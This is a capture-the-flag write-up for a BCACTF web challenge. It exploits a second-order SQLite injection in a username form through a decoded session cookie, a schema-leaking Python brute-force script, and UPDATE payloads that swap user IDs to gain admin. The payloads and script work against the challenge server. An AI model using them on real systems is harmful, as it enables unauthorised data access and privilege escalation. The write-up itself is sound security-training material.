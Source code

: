 ```yaml
---
layout: writeup
category: BCACTF
chall_description: 
points: 150
solves: 29
tags: web
date: 2024-06-09
comments: true
---
```


## Description:
This was a pretty cool challenge. It was easy to determine that the site is vulnerable to SQLi. But the difficult part was exploiting it to become admin.



## Enumeration:

Adding single " results in the following error. 
![Branching](1.jpg)

After a few tests, I found out it's using SQLite and by decoding the cookie we can leak the role table.
```sh
┌──(kali㉿kali)-[~/…/CTF/BCACTF/misc/jailbreak_last]
└─$ echo eyJkYiI6IjFjM2VhODU3ZmY4MWY2ZDAzNDE0NzZlNTNhOTEzZjU3Iiwicm9sZV90YWJsZSI6InJvbGVzXzA1YTk3NDg1ZTE4MDQ0ZDQifQ.ZmTmHg.k3RSxlmOA9a5_Pwf2ZsauCmap5M | base64 -d
{"db":"1c3ea857ff81f6d0341476e53a913f57","role_table":"roles_05a97485e18044d4"}base64: invalid input
```

Query at the backend should look something like this:
```js
UPDATE users
SET     name = "(User Input)"
WHERE id = 1
```


Payload to check the length of the table SCHEMA. The payload is checking if the second condition is true or not. ( "" OR 1=1 -- ) should return in 1 as the first condition is False as we keep the name empty and 1=1 is True, this will assign the username as 1. ( "" OR 1=0 -- ) But if the second condition is False then the username will become 0. I found its length to be 119.
```
" OR (SELECT LENGTH(sql) FROM sqlite_master WHERE type="table" AND name="roles_843b46a14818cf3e") > 119 --
```

Now to leak the SCHEMA, for some reason, SQLMap wasn't working well with second-order injection and I had to write the following script to bruteforce.

```python
import requests, string
 
url = "http://challs.bcactf.com:31406/" 
length = 119
leak = ""
# Update the table name and cookie value
role_table = "roles_289ff29f827e6f06"
cookies = {"session": "eyJkYiI6IjBhOTQ3M2U1NGNlZTBkNjc0YzZmODdmYWQzMGI3Yzg0Iiwicm9sZV90YWJsZSI6InJvbGVzXzI4OWZmMjlmODI3ZTZmMDYifQ.ZmTs2w.Mdx1fbM32zrwR8y5cPRbm71s5XA"}
 
for index in range(0,length+1): 
    for char in string.printable:
        # schema leak Query
        payload = f'" OR "{char}"=(SELECT(SUBSTR((SELECT sql FROM sqlite_master WHERE type="table" AND name="{role_table}"),{index},1)) ) --'

        data = {"username":payload} 
        response = requests.post(url+"/set-username", data=data, cookies=cookies)
        output = response.text.split("Your username is ")[1].split(".")[0] 
        if output == "1":
            leak+=char
            print(f"@ {index} Got {char} | Leaked: {leak}  ")
            break
        
print(leak)   
```

This revealed two tables - users and role_* table. Role table has Foreign Key on Update it basically means that the users id will be stuck to roles admin on Update. This is crucial information to exploit.
```js
users: CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
role: CREATE TABLE roles_843b46a14818cf3e (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE) 
```

You can use something like the following to easily leak the tables.
```
", name=(SELECT GROUP_CONCAT(admin,"|") from roles_57fd80a6ac365e90 WHERE id = 0 ) WHERE id=1 --
```


                           
```
User                             Role   
| id    | name  |               | id    | admin |
|-------|-------|               |-------|-------|
|   0   | admin |               |   0   |   1   |
|   1   | input |               |   1   |   0   |
```
 


Our user id will always remain 1 so the only way to become admin is to make the admin's user id 1.



## Exploitation

1. Make admin id 3
```
    admin" , id = 3 where id=0 -- 
```
2. Make user id 4 and admin id 1
```
    ", id =  CASE WHEN id=1 THEN 4 WHEN id=3 THEN 1 END  WHERE id IN (1,3,4)  --
```

    ![Branching](2.jpg)

